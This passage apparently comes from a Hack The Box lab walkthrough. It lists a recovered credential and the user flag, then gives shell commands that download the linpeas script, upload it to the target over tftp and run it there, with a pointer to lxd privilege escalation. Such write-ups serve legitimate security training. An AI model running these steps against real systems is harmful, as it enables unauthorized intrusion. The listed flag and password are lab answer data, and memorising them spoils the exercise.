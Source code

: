     And we have got a credential of **mike**, *Sheffield19*

11. Now we can literal movement to user **mike**, and get the user flag *a56ef91d70cfbf2cdb8f454c006935a1*

    ![](../assets/img/htb-starting-point/92.PNG)

12. After gaining the user's privilege to run any code, we would like to run a **linpeas** script for possible **privilege escalation**. As the machine is not connected to internet, we would upload the script via tftp

    ```bash
    wget https://github.com/carlospolop/PEASS-ng/releases/download/20221225/linpeas.sh #on kali
    tftp <Target_IP> #on kali
    tftp> put linpeas.sh #upload via tftp
    cp linpeas.sh /tmp #we cannot run the linpeas at /var/lib/tftpboot folder
    chmod +x linpeas.sh #add execution mode
    ./linpeas.sh
    ```

    ![](../assets/img/htb-starting-point/93.PNG)

    From the result, group **lxd** is a 95% PE vector, just go to **hacktricks** to know how https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation
